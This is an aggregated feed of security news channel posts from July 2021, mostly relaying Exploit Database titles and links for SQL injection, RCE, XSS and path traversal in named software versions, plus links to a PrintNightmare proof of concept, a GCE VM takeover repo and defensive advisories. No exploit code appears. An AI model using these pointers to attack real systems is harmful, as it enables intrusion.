https://www.exploit-db.com/exploits/50105
</a>
<blockquote>
Phone Shop Sales Managements System 1.0 - Authentication Bypass (SQLi).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 13:53:13`

<blockquote>
[webapps] Visual Tools DVR VX16 4.2.28 - Local Privilege Escalation
https://www.exploit-db.com/exploits/50104

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50104?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50104?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Visual Tools DVR VX16 4.2.28 - Local Privilege Escalation.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 13:53:13`

<blockquote>
[webapps] Exam Hall Management System 1.0 - Unrestricted File Upload (Unauthenticated)
https://www.exploit-db.com/exploits/50103

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50103">
https://www.exploit-db.com/exploits/50103
</a>
<blockquote>
Exam Hall Management System 1.0 - Unrestricted File Upload (Unauthenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 13:53:12`

<blockquote>
[webapps] Billing System Project 1.0 - Remote Code Execution (RCE) (Unauthenticated)
https://www.exploit-db.com/exploits/50102

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50102">
https://www.exploit-db.com/exploits/50102
</a>
<blockquote>
Billing System Project 1.0 - Remote Code Execution (RCE) (Unauthenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 13:53:10`

<blockquote>
[webapps] Pallets Werkzeug 0.15.4 - Path Traversal
https://www.exploit-db.com/exploits/50101

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50101">
https://www.exploit-db.com/exploits/50101
</a>
<blockquote>
Pallets Werkzeug 0.15.4 - Path Traversal. CVE-2019-14322 . webapps exploit for Python platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 12:53:38`

<blockquote>
[webapps] Black Box Kvm Extender 3.4.31307 - Local File Inclusion
https://www.exploit-db.com/exploits/50100

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50100">
https://www.exploit-db.com/exploits/50100
</a>
<blockquote>
Black Box Kvm Extender 3.4.31307 - Local File Inclusion.. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 12:53:37`

<blockquote>
[webapps] Netgear DGN2200v1 - Remote Command Execution (RCE) (Unauthenticated)
https://www.exploit-db.com/exploits/50099

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50099">
https://www.exploit-db.com/exploits/50099
</a>
<blockquote>
Netgear DGN2200v1 - Remote Command Execution (RCE) (Unauthenticated).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 12:53:36`

<blockquote>
[webapps] Visual Tools DVR VX16 4.2.28.0 - OS Command Injection
https://www.exploit-db.com/exploits/50098

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50098">
https://www.exploit-db.com/exploits/50098
</a>
<blockquote>
Visual Tools DVR VX16 4.2.28.0 - OS Command Injection (Unauthenticated).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-06 12:53:34`

<blockquote>
[webapps] perfexcrm 1.10 - 'State' Stored Cross-site scripting (XSS)
https://www.exploit-db.com/exploits/50097

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50097?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50097?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
perfexcrm 1.10 - 'State' Stored Cross-site scripting (XSS).. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-06 09:09:57`

<blockquote>
https://github.com/irsl/gcp-dhcp-takeover-code-exec
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/irsl/gcp-dhcp-takeover-code-exec">
https://github.com/irsl/gcp-dhcp-takeover-code-exec
</a>
<blockquote>
Google Compute Engine (GCE) VM takeover via DHCP flood - gain root access by getting SSH keys added by google_guest_agent - GitHub - irsl/gcp-dhcp-takeover-code-exec: Google Compute Engine (GCE) VM...
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 15:53:10`

<blockquote>
[webapps] Ricon Industrial Cellular Router S9922XL - Remote Command Execution (RCE)
https://www.exploit-db.com/exploits/50096

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50096">
https://www.exploit-db.com/exploits/50096
</a>
<blockquote>
Ricon Industrial Cellular Router S9922XL - Remote Command Execution (RCE).. webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:50`

<blockquote>
[webapps] TextPattern CMS 4.9.0-dev - Remote Command Execution (RCE) (Authenticated)
https://www.exploit-db.com/exploits/50095

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50095?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50095?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
TextPattern CMS 4.9.0-dev - Remote Command Execution (RCE) (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:46`

<blockquote>
[webapps] Simple Client Management System 1.0 - Remote Code Execution (RCE)
https://www.exploit-db.com/exploits/50094

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50094?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50094?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Simple Client Management System 1.0 - Remote Code Execution (RCE).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:45`

<blockquote>
[webapps] Wordpress Plugin Backup Guard 1.5.8 - Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/50093

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50093?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50093?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Wordpress Plugin Backup Guard 1.5.8 - Remote Code Execution (Authenticated). CVE-2021-24155 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:44`

<blockquote>
[webapps] Church Management System 1.0 - 'password' SQL Injection (Authentication Bypass)
https://www.exploit-db.com/exploits/50092

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50092?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50092?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Church Management System 1.0 - 'password' SQL Injection (Authentication Bypass).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:43`

<blockquote>
[webapps] Church Management System 1.0 - 'Multiple' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50091

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50091?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50091?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Church Management System 1.0 - 'Multiple' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:42`

<blockquote>
[webapps] Church Management System 1.0 - Unrestricted File Upload to Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/50090

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50090?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50090?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Church Management System 1.0 - Unrestricted File Upload to Remote Code Execution (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:41`

<blockquote>
[webapps] Online Birth Certificate System 1.1 - 'Multiple' Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50089

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50089?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50089?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Birth Certificate System 1.1 - 'Multiple' Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:40`

<blockquote>
[webapps] Online Voting System 1.0 - SQLi (Authentication Bypass) + Remote Code Execution (RCE)
https://www.exploit-db.com/exploits/50088

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50088?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50088?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Voting System 1.0 - SQLi (Authentication Bypass) + Remote Code Execution (RCE).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 14:53:38`

<blockquote>
[webapps] OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated) (2)
https://www.exploit-db.com/exploits/50087

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50087?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50087?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
OpenEMR 5.0.1.7 - 'fileName' Path Traversal (Authenticated) (2).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-05 13:53:14`

<blockquote>
[webapps] WordPress Plugin WP Learn Manager 1.1.2 - Stored Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50086

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50086?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50086?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
WordPress Plugin WP Learn Manager 1.1.2 - Stored Cross-Site Scripting (XSS).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# isast
`2021-07-04 10:59:15`

<blockquote>
Смотрите &quot;Fuzzer Crash Root Cause Analysis With ASAN (AddressSanitizer)&quot; на YouTube
https://youtu.be/_W3D_0erZ00
</blockquote>

<table><tr><td><b>→</b><a href="https://youtu.be/_W3D_0erZ00">
https://youtu.be/_W3D_0erZ00
</a>
<blockquote>
Now that we found a crash and got a minimal testcase last episode, we can now try to find the true location of the overflow. ASan is an invaluable tool for that.

Fuzzing Project: https://fuzzing-project.org/tutorial2.html
Grab the files: https://github.com/LiveOverflow/pwnedit
Full Playlist: https://www.youtube.com/playlist?list&#61;PLhixgUqwRTjy0gMuT4C3bmjeZjuNQyqdx

Episode 6:
00:00 - Intro
00:47 - Create sudo ASan build
01:47 - Investigating weird issue
04:14 - Accidentally solving the problem
05:10 - Improve AddressSanitizer Debug Output
06:49 - Interpreting AddressSanitizer Output
07:23 - Triaging More Unique Crashes
08:25 - Plan For Next Steps

-&#61;[ ❤️ Support ]&#61;-

→ per Video: https://www.patreon.com/join/liveoverflow
→ per Month: https://www.youtube.com/channel/UClcE-kVhqyiHCcjYwcpfj9w/join

-&#61;[ 🐕 Social ]&#61;-

→ Twitter: https://twitter.com/LiveOverflow/
→ Website: https://liveoverflow.com/
→ Subreddit: https://www.reddit.com/r/LiveOverflow/
→ Facebook: https://www.facebook.com/LiveOverflow/
</blockquote>
</td></tr></table>

---

# R0_Crew
`2021-07-03 19:39:04`

<blockquote>
Machine Learning to Deobfuscate Binaries https://github.com/eth-sri/debin &#35;reverse &#35;dukeBarman
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/eth-sri/debin">
https://github.com/eth-sri/debin
</a>
<blockquote>
Machine Learning to Deobfuscate Binaries. Contribute to eth-sri/debin development by creating an account on GitHub.
</blockquote>
</td></tr></table>

---

# phd_soc
`2021-07-03 16:23:07`

<blockquote>
Вдруг кому будет полезно. 
Допилил фид с хэшами. Фришная часть тут
https://github.com/rstcloud/rstthreats/tree/master/feeds/short
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/rstcloud/rstthreats/tree/master/feeds/short">
https://github.com/rstcloud/rstthreats/tree/master/feeds/short
</a>
<blockquote>
Aggregated Indicators of Compromise collected and cross-verified from multiple open and community-supported sources, enriched and ranked using our intelligence platform for you. Threat Intelligence...
</blockquote>
</td></tr></table>

---

# isast
`2021-07-03 14:00:04`

<blockquote>
https://github.com/python/mypy

https://mypy.readthedocs.io/en/stable/

&quot;Mypy is a static type checker for Python 3 and Python 2.7. If you sprinkle your code with type annotations, mypy can type check your code and find common bugs. As mypy is a static analyzer, or a lint-like tool, the type annotations are just hints for mypy and don’t interfere when running your program. You run your program with a standard Python interpreter, and the annotations are treated effectively as comments.

Using the Python 3 annotation syntax (using PEP 484 and PEP 526 notation) or a comment-based annotation syntax for Python 2 code, you will be able to efficiently annotate your code and use mypy to check the code for common errors. Mypy has a powerful and easy-to-use type system with modern features such as type inference, generics, callable types, tuple types, union types, and structural subtyping.

As a developer, you decide how to use mypy in your workflow. You can always escape to dynamic typing as mypy’s approach to static typing doesn’t restrict what you can do in your programs. Using mypy will make your programs easier to understand, debug, and maintain.

This documentation provides a short introduction to mypy. It will help you get started writing statically typed code. Knowledge of Python and a statically typed object-oriented language, such as Java, are assumed.&quot;
</blockquote>

<table><tr><td><b>→</b><a href="https://github.com/python/mypy">
https://github.com/python/mypy
</a>
<blockquote>
Optional static typing for Python 3 and 2 (PEP 484) - GitHub - python/mypy: Optional static typing for Python 3 and 2 (PEP 484)
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-03 11:17:11`

<blockquote>
https://twitter.com/hackerfantastic/status/1411036560498249731
</blockquote>

<table><tr><td><b>→</b><a href="https://twitter.com/hackerfantastic/status/1411036560498249731">
https://twitter.com/hackerfantastic/status/1411036560498249731
</a>
<blockquote>
@msftsecurity Cancer: CVE-2021-34527 Leo: CVE-2021-34527 Virgo: CVE-2021-34527 Libra: CVE-2021-34527 Scorpio: CVE-2021-34527 Sagittarius: CVE-2021-34527 Capricorn: CVE-2021-34527 Aquarius: CVE-2021-34527 Pisces: CVE-2021-34527 Aries: CVE-2021-34527 Taurus: CVE-2021-34527 Gemini: CVE-2021-34527
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 22:53:23`

<blockquote>
Free Micropatches for PrintNightmare Vulnerability (CVE-2021-34527)
https://www.reddit.com/r/netsec/comments/ocau2t/free_micropatches_for_printnightmare/

via /r/netsec - Information Security News &amp; Discussion
</blockquote>

<table><tr><td><b>→</b><a href="https://www.reddit.com/r/netsec/comments/ocau2t/free_micropatches_for_printnightmare/">
https://www.reddit.com/r/netsec/comments/ocau2t/free_micropatches_for_printnightmare/
</a>
<blockquote>
Posted in r/netsec by u/jonasLyk • 119 points and 22 comments
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 20:53:18`

<blockquote>
Microsoft PrintNightmare Proof Of Concept
https://packetstormsecurity.com/files/163349/CVE-2021-1675-main.zip

via Exploit Files ≈ Packet Storm
</blockquote>

<table><tr><td><b>→</b><a href="https://packetstormsecurity.com/files/163349/CVE-2021-1675-main.zip">
https://packetstormsecurity.com/files/163349/CVE-2021-1675-main.zip
</a>
<blockquote>
Information Security Services, News, Files, Tools, Exploits, Advisories and Whitepapers
</blockquote>
</td></tr></table>

---

# sysadm_in_channel
`2021-07-02 18:43:17`

<blockquote>
.NET Core Remote Code Execution Vulnerability - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-26701

В связи с чем рекомендуется обновить PowerShell - https://azure.microsoft.com/en-us/updates/update-powershell-versions-70-and-71-to-protect-against-a-vulnerability/

Доп. информация по уязвимости - https://github.com/advisories/GHSA-ghhp-997w-qr28
</blockquote>

<table><tr><td><b>→</b><a href="https://azure.microsoft.com/en-us/updates/update-powershell-versions-70-and-71-to-protect-against-a-vulnerability/">
https://azure.microsoft.com/en-us/updates/update-powershell-versions-70-and-71-to-protect-against-a-vulnerability/
</a>
<blockquote>
If you manage your Azure resources from PowerShell, update versions 7.0 and 7.1 of PowerShell as soon as possible.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 17:53:14`

<blockquote>
[webapps] Scratch Desktop 3.17 - Cross-Site Scripting/Remote Code Execution (XSS/RCE)
https://www.exploit-db.com/exploits/50079

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50079?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50079?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Scratch Desktop 3.17 - Cross-Site Scripting/Remote Code Execution (XSS/RCE). CVE-2020-7750 . webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 15:53:35`

<blockquote>
[webapps] Garbage Collection Management System 1.0 - SQL Injection (Unauthenticated)
https://www.exploit-db.com/exploits/50085

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50085?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50085?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Garbage Collection Management System 1.0 - SQL Injection (Unauthenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 15:53:34`

<blockquote>
[webapps] Wordpress Plugin Modern Events Calendar 5.16.2 - Event export (Unauthenticated)
https://www.exploit-db.com/exploits/50084

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50084">
https://www.exploit-db.com/exploits/50084
</a>
<blockquote>
Wordpress Plugin Modern Events Calendar 5.16.2 - Event export (Unauthenticated). CVE-2021-24146 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# cyberoffru
`2021-07-02 15:35:12`

<blockquote>
https://t.me/CyberJobsRussia
</blockquote>

<table><tr><td><b>→</b><a href="https://t.me/CyberJobsRussia">
https://t.me/CyberJobsRussia
</a>
<blockquote>
Rules https://github.com/cyberjobsrussia/rules/blob/main/README.md
Team @elijahduboff - Илья, @TeErevia - Павел, @alexbodryk - Александр \ при поддержке www.cyberlands.io - API Penetration Testing. Попасть в канал - пишем в группе, указываем орг. и вилку
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 12:53:23`

<blockquote>
[local] WinWaste.NET 1.0.6183.16475 - Privilege Escalation due Incorrect Access Control
https://www.exploit-db.com/exploits/50083

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50083">
https://www.exploit-db.com/exploits/50083
</a>
<blockquote>
WinWaste.NET 1.0.6183.16475 - Privilege Escalation due Incorrect Access Control.. local exploit for Windows platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 12:53:22`

<blockquote>
[webapps] Wordpress Plugin Modern Events Calendar 5.16.2 - Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/50082

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50082?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50082?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Wordpress Plugin Modern Events Calendar 5.16.2 - Remote Code Execution (Authenticated). CVE-2021-24145 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 12:53:21`

<blockquote>
[webapps] b2evolution 7.2.2 - 'edit account details' Cross-Site Request Forgery (CSRF)
https://www.exploit-db.com/exploits/50081

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50081?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50081?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
b2evolution 7.2.2 - 'edit account details' Cross-Site Request Forgery (CSRF).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-02 12:53:20`

<blockquote>
[webapps] AKCP sensorProbe SPX476 - 'Multiple' Cross-Site Scripting (XSS)
https://www.exploit-db.com/exploits/50080

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50080?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50080?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
AKCP sensorProbe SPX476 - 'Multiple' Cross-Site Scripting (XSS). CVE-2021-35956 . webapps exploit for Hardware platform
</blockquote>
</td></tr></table>

---

# freedomf0x
`2021-07-02 02:44:29`

<blockquote>
https://github.com/cisagov/cset
</blockquote>

---

# sysadm_in_channel
`2021-07-01 18:20:49`

<blockquote>
В продолжение поста про PrintNightmare

Технические детали, митигация (очень простая - остановить службу печати 🙂 ):

https://doublepulsar.com/zero-day-for-every-supported-windows-os-version-in-the-wild-printnightmare-b3fdb82f840c
</blockquote>

<table><tr><td><b>→</b><a href="https://doublepulsar.com/zero-day-for-every-supported-windows-os-version-in-the-wild-printnightmare-b3fdb82f840c">
https://doublepulsar.com/zero-day-for-every-supported-windows-os-version-in-the-wild-printnightmare-b3fdb82f840c
</a>
<blockquote>
zhiniang peng tweeted out a proof of concept exploit and explainer recently, and then quickly deleted it. This exploit and discussion…
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-01 12:53:22`

<blockquote>
[webapps] Vianeos OctoPUS 5 - 'login_user' SQLi
https://www.exploit-db.com/exploits/50078

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50078?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50078?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Vianeos OctoPUS 5 - 'login_user' SQLi.. webapps exploit for Multiple platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-01 12:53:13`

<blockquote>
[webapps] Wordpress Plugin XCloner 4.2.12 - Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/50077

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50077?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50077?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Wordpress Plugin XCloner 4.2.12 - Remote Code Execution (Authenticated). CVE-2020-35948 . webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-01 12:53:11`

<blockquote>
[webapps] Online Voting System 1.0 - Remote Code Execution (Authenticated)
https://www.exploit-db.com/exploits/50076

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50076?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50076?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Voting System 1.0 - Remote Code Execution (Authenticated).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-01 12:53:10`

<blockquote>
[webapps] Online Voting System 1.0 - Authentication Bypass (SQLi)
https://www.exploit-db.com/exploits/50075

via Exploit Database
</blockquote>

<table><tr><td><b>→</b><a href="https://www.exploit-db.com/exploits/50075?utm_source=dlvr.it&utm_medium=twitter">
https://www.exploit-db.com/exploits/50075?utm_source=dlvr.it&utm_medium=twitter
</a>
<blockquote>
Online Voting System 1.0 - Authentication Bypass (SQLi).. webapps exploit for PHP platform
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-01 08:53:39`

<blockquote>
Обновление системы обнаружения атак Suricata с устранением критической уязвимости
https://www.opennet.ru/opennews/art.shtml?num&#61;55415

via OpenNews.opennet.ru: Проблемы безопасности
</blockquote>

<table><tr><td><b>→</b><a href="https://www.opennet.ru/opennews/art.shtml?num=55415">
https://www.opennet.ru/opennews/art.shtml?num=55415
</a>
<blockquote>
Организация OISF (Open Information Security Foundation) опубликовала корректирующие выпуски системы обнаружения и предотвращения сетевых вторжений Suricata 6.0.3 и 5.0.7, в которых устранена уязвимость CVE-2021-35063, имеющая критический уровень опасности. Проблема даёт возможность обойти любые анализаторы и проверки Suricata.
</blockquote>
</td></tr></table>

---

# defcon_news
`2021-07-01 01:53:33`

<blockquote>
PrintNightmare, Critical Windows Print Spooler Vulnerability
https://us-cert.cisa.gov/ncas/current-activity/2021/06/30/printnightmare-critical-windows-print-spooler-vulnerability

via CISA Current Activity
</blockquote>

<table><tr><td><b>→</b><a href="https://us-cert.cisa.gov/ncas/current-activity/2021/06/30/printnightmare-critical-windows-print-spooler-vulnerability">
https://us-cert.cisa.gov/ncas/current-activity/2021/06/30/printnightmare-critical-windows-print-spooler-vulnerability
</a>
<blockquote>
(Updated July 2, 2021) For new information and mitigations, see Microsoft's updated guidance for the Print spooler vulnerability (CVE-2021-34527).

(Updated July 1, 2021) See Microsoft's new guidance for the Print spooler vulnerability (CVE-2021-34527) and apply the necessary workarounds. 
</blockquote>
</td></tr></table>

---

